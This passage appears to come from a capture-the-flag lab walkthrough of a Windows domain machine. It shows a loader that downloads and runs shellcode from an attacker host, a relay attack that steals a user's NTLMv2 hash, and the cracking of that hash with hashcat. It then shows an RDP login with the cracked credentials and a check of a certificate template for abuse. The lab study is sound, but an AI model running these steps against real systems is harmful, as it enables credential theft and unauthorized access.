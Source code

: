 Now run the tool
```
PS C:\programdata> ./rloader.exe web runt http://10.8.4.147/potato.run
[i] Start ... 
[i] Start to retrieve payload from: h
[i] Writing Shellcode To The Target Location ... 
[+] Running tool

[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 8888
[*] Example Network redirector: 
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:8888
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 8888 ...
[*] IStoragetrigger written: 102 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 8888
[+] User hash stolen!

NTLMv2 Client   : AWSJPDC0522
NTLMv2 Username : SHIBUYA\Nigel.Mills
NTLMv2 Hash     : Nigel.Mills::SHIBUYA:e312c32e0ce8503c:422ec1c91294a1b2110f368875fb511d:<SNIP>00000000000000000000000000000000000090000000000000000000000

```

Now crack it with hashcat
```
└─$ hashcat -m 5600 -a 0 nigel.mills.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>
NIGEL.MILLS::SHIBUYA:e312c32e0ce8503c:422ec1c91294a1b2110f368875fb511d:<SNIP>00000000000000000000000000000000000090000000000000000000000:<REDACTED>
<SNIP>
```

Since `nigel.mills` is a member of `t1_admins` and who can RDP
```
└─$ xfreerdp /v:AWSJPDC0522.shibuya.vl /u:nigel.mills /p:'<REDACTED>' /d:shibuya.vl /dynamic-resolution /drive:.,linux            
[23:15:39:596] [91729:91730] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[23:15:39:596] [91729:91730] [WARN][com.freerdp.crypto] - CN = AWSJPDC0522.shibuya.vl
Certificate details for AWSJPDC0522.shibuya.vl:3389 (RDP-Server):
        Common Name: AWSJPDC0522.shibuya.vl

```

[PrivescCheck](https://github.com/itm4n/PrivescCheck) and [WinPeas](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) showed nothing. Also noticed that we have `CA` running
```
<SNIP>
    CA Name                               : AWSJPDC0522.shibuya.vl\shibuya-AWSJPDC0522-CA
    Template Name                         : ShibuyaWeb
    Schema Version                        : 2
    Validity Period                       : 100 years
    Renewal Period                        : 75 years
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
```